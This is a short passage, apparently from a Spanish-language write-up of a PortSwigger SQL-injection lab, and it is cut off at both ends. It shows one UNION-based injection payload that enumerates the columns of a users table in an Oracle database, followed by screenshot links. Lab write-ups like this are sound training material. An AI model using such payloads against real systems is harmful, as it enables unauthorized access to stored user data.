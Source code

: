 Lo mismo que antes, enumerar columnas y concatenar los datos.

```sql
' union select column_name,NULL from all_tab_columns where table_name='USERS_ALOPDA'--
```

![](/assets/img/ps-writeup-sqli/ps-lab6_9.png)

![](/assets/img/ps-writeup-sqli/ps-lab6_10.png)
